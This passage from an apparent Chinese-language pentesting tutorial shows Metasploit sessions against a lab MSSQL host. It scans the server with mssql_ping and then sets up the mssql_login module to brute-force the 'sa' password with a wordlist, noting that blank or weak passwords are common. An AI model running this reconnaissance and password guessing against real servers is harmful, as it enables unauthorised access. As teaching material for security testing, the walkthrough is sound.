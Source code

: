 
**0x03`mssql_ping模块找出mssql服务情况`**

```javascript
msf exploit(mssql_payload) > use auxiliary/scanner/mssql/mssql_ping 
msf auxiliary(mssql_ping) > set RHOSTS 10.10.10.130
RHOSTS => 10.10.10.130
msf auxiliary(mssql_ping) > show options

Module options (auxiliary/scanner/mssql/mssql_ping):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   PASSWORD                              no        The password for the specified username
   RHOSTS               10.10.10.130     yes       The target address range or CIDR identifier
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              20               yes       The number of concurrent threads
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(mssql_ping) > exploit

[*] SQL Server information for 10.10.10.130:
[+]    ServerName      = ROOT-TVI862UBEH
[+]    InstanceName    = MSSQLSERVER
[+]    IsClustered     = No
[+]    Version         = 9.00.1399.06
[+]    tcp             = 1433
[+]    np              = \\ROOT-TVI862UBEH\pipe\sql\query
[+]    via             = ROOT-TVI862UBEH,0:1433
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(mssql_ping) > 
```javascript


**用户名和口令猜测**
MSSQL在初次安装时，需要用户创建sa或者系统管理员用户，管理员在安装时，又常常会设置空密码或者弱密码，所以可以尝试暴力破解密码
```javascript


msf auxiliary(mssql_ping) > use auxiliary/scanner/mssql/mssql_login
msf auxiliary(mssql_login) > show options

Module options (auxiliary/scanner/mssql/mssql_login):

   Name                 Current Setting                     Required  Description
   ----                 ---------------                     --------  -----------
   BLANK_PASSWORDS      false                               no        Try blank passwords for all users
   BRUTEFORCE_SPEED     5                                   yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS         false                               no        Try each user/password couple stored in the current database
   DB_ALL_PASS          false                               no        Add all passwords in the current database to the list
   DB_ALL_USERS         false                               no        Add all users in the current database to the list
   PASSWORD                                                 no        A specific password to authenticate with
   PASS_FILE            /usr/share/wordlists/fasttrack.txt  no        File containing passwords, one per line
   RHOSTS               10.10.10.130                        yes       The target address range or CIDR identifier
```